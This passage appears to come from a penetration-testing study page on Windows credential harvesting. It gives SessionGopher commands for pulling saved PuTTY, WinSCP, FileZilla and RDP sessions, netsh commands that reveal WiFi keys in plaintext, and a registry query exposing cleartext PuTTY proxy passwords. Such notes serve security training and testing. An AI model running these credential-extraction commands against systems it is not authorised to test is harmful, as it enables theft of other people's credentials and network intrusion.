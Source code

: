LaZagne or...

Can use the "SessionGopher" tool (https://github.com/Arvanaghi/SessionGopher) to search stuff like PuTTY, WinSCP, FileZilla, RDP and other services for saved session data including credentials:

```
PS C:\> Import-Module .\SessionGopher.ps1
PS C:\> Invoke-SessionGopher -Target <LOCAL_OR_REMOTE_TARGET_NAME>
```

### WiFi Passwords

We can try to pivot across networks by abusing WiFi access:

REQUIRES ADMIN ACCESS, but we can review the machine's wireless card for recent connections with 

```
C:\> netsh wlan show profile
```

then checkout the `Key Content` value to view a plaintext password AFTER running

```
C:\> netsh wlan show profile <NETWORK_NAME> key=clear
```

### Software Abuse

Examine software to identify ways to discover credentials. E.g. browsers, email clients, FTP clients, SSH clients, VNC software etc.

```
// 32-bit apps
PS C:\> Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

//64-bit apps
PS C:\> Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

and for running processes

```
PS C:\> Get-Process

PS C:\> Get-CimInstance -ClassName Win32_Process | select *
```

#### Case study: PuTTY

PuTTY is a client used for SSH connections. Sometimes, connection parameters and sessions are stored for later use. SSH passwords themselves are not stored directly, but proxy passwords are. E.g. this command will expose cleartext authN details:
- `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`
    - `/f` to find a string
    - `/s` to seach recursively
    - SimonTatham is part of the directory path regardless of username you're trying to find
